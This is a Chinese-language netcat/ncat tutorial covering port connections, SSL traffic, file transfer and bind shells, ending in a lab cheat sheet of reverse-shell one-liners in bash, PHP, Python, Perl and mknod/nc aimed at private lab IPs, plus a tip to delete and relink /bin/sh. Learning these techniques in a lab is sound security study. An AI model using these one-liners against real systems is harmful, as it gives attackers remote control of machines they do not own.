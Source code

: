 # ncat

### 功能

```
扫描端口
传输文件加密
通信加密
传递shell
```



### nc当作浏览器使用

```
nc -nv ip 80(该服务器对应的端口) (下面是发送的数据包)
GET / HTTP/1.1
Host: 192.168.1.4
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![](./image/1.png)
**得到的响应内容**
![](./image/2.png)

### ncat 在两台主机直接通信(这里使用的是win7连接的kali)

**软件路径	win7 C:\install\rolan\tools\端口扫描\nmap\ncat.exe**

```
linux更新ncat
apt-get install ncat
```

**ncat -lvp 1150** 

```
-l表示监听 -v表示冗余 -p表示端口
```
![](./image/4.png)

![](./image/3.png)

**nc -nv ip 连接服务器的端口**

开启wireshark

```
ip.addr == 192.168.1.42 && ip.addr == 192.168.1.169 &&tcp.port==1150
```

![](./image/6.png)

![](./image/7.png)

![](./image/5.png)

### ncat使用流量加密传输 --ssl

**ncat -lvp 1150 --ssl**

![](./image/8.png)

**nc -nv ip 连接服务器的端口 --ssl**

![](./image/9.png)


![](./image/10.png)

**可以发现流量已经被加密**

![](./image/11.png)

### 通过ncat进行文件传输

```
监听端接收数据 >

发送端发送数据 <
```

```
nc -lvp 1150 > p.txt
ncat.exe -nv 192.168.1.169 1150 < 3rd-party-licenses.txt
```

![](./image/12.png)

![](./image/13.png)

**监听任意地址的 xx端口 将文件发送给连接的主机**

```
nc -lvp 1150 < p.txt (发送)
ncat.exe -nv 192.168.1.169 1150 > 3.txt（接收）
```


![](./image/14.png)

![](./image/15.png)

![](./image/16.png)

**-i 等待超时时间**

```
ncat.exe -i 2 -lvp 1160 < 3.txt
nc -nv 192.168.1.42 1160 > 3.txt
```

![](./image/17.png)

![](./image/18.png)

### 传输文件|传输目录

```
tar -cvf - 1.py | nc -lvp 1180
如果是目录就将1.py 进行替换即可

nc -nv 127.0.0.1 1180 | tar xvf -
```

![](./image/19.png)

![](./image/20.png)

### 使用nc 反弹shell 

**ncat 远程控制**

```
场景:
kali 攻击机
win7 被攻击机
kali 获得win7 cmd shell

反向控制
2.kali linux(攻击机)监听一个端口,然后win7这台主机主动连接该端口,并将shell携带上
```

#### 正向控制 

```
1.win7这台主机,开放一个端口，任何一个访问该端口的主机都可以对win7这台主机下达指令
nc -lvp 12345 
```

![](./image/23.png)

![](./image/24.png)

#### 反向控制 (反弹shell)

```
原因:
1、目标服务器在内网 做的nat映射
2、入网比出网拦截的更狠
3、目标服务器在内网，需要进行端口转发，特别麻烦
```

![](./image/28.png)


![](./image/27.png)


### linux常见反弹shell的方式

##### bash -i

```
将自己的bash shell交给某个ip的某个端口

bash -i>& /dev/tcp/192.168.1.4/12345 0>&1
```
![](./image/30.png)


![](./image/29.png)

##### php -r

```
依赖php环境
php -r 'exec("/bin/sh -i >& /dev/tcp/192.168.1.4/12345  0>&1");'
```

**如果报错**

```
输入以下命令即可
rm -f /bin/sh
ln -sf /bin/bash /bin/sh
```

![](./image/31.png)


![](./image/32.png)

##### python反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.169",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](./image/34.png)


![](./image/33.png)

##### perl 反弹shell

```
perl -e 'use Socket;$i="192.168.1.169";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![](./image/35.png)


![](./image/36.png)

##### mknod backpipe

```
mknod backpipe p && nc 192.168.1.169 1234 0<backpipe | /bin/bash 1>backpipe
 
监听执行： nc -n -vv -l -p 1234
```

![](./image/37.png)


![](./image/38.png)



